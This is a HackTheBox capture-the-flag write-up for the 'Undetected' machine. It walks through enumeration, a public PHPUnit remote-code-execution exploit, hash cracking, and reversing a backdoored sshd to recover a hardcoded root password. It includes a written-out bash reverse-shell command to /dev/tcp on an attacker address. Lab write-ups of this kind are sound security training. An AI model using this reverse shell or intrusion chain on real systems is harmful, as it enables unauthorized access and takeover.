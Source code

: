 ```yaml
---
title: Undetected HackTheBox Writeup
tags: [writeup,rest,python,hackthebox,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/2.png)

## Enumeration
We access the website and review the different sections and the source code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/3.png)

We see a section called "*store*", it shows a direct link and we can list a valid subdomain.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/4.png)

We add the subdomain to our file "*/etc/hosts/*.

We access the store subdomain and we see an online shopping cart.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/5.png)

According to them, the site does not accept orders, so they may have another web resource on another subdomain, we tried to take out subdomains by forcing vhost, but without success.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/6.png)

We launch the **dirsearch** tool, we manage to list multiple paths where directory listing usually exist.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/7.png)

##### Example of directory listing:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/8.png)


## Exploitation
We checked the software versions in the "*installed.json*" file for vulnerabilities and exploits, and found that **PHP Unit version 4.0.8** is vulnerable to remote code execution (RCE).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/9.png)

#### Exploit: [PHP Unit 4.8.28 - Remote Code Execution (RCE) (Unauthenticated) - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50702)

We download and run the exploit, we see that it works perfectly in this proof of concept.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/10.png)

We put a **netcat** and run a reverse shell to have a more interactive one.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/11.png)

##### Code used:
```bash
/usr/bin/bash -c "bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"
```

We searched for files and found the "*info*" file in backups, it looks like it is running a **bash** with a hexadecimal string.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/12.png)

Decoding the content, we see that a script is being executed in which a hash of a user is hardcoded. 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/13.png)

We put the hash in a file and crack it with **john**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/14.png)

We check the "*/etc/passwd*" and find the users, try the password with both users and one works. 

We see that we can also read the flag of *user.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/15.png)


## Privilege Escalation
We launch the **linpeas.sh** script to perform a deep and fast reconnaissance of the system, we see that it is vulnerable to *Polkit* and *Pwnkit*, but we will try not to exploit these paths.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/16.png)

We identify the user *Steven's* path to his mailbox.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/17.png)

We read the email left by the root user, it seems that they are having difficulties with the **Apache service** and the website, while they investigate the problem they have left a temporary password to authenticate us on the server. But where?   

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/18.png)

Assuming the team is scared, I assume that file is one of the last things they have modified or deployed to the server. So we look for the last modified files by date, we find a library called "*mod_reader.so*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/19.png)

We transfer it to our machine and use **strings** on it, we find a string that looks like **base64**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/20.png)

We see that the **wget** binary is being executed on an image and on the **sshd** binary, but this does not make any sense... Unless that **sshd** is not what it looks like.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/21.png)

We transfer the **sshd** binary, compare the hashes and see that they are different, so it could be the file we are looking for "*camouflaged*" in the system.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/22.png)

We open the file with **Ghidra**, list a function called "*backdoor*" and it seems to contain an authentication for the **SSH** service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/23.png)

In this code trace it is very clear, it is performing a comparison of both strings, therefore it is validating a password that is hardcoded in the binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/24.png)

We reviewed the code of the "*backdoor*" function, we found several variables with **hexadecimal** values:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/25.png)

Then we see that there is a loop where it is storing the content of the previous variables and computing them in **XOR** with the key "*0x96*" in **hexadecimal**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/26.png)

We used the online tool **Cyberchef**, inserted the parameters and managed to obtain the password in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/27.png)

We connect via **SSH** with the root user and read the *root.txt* file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/28.png)




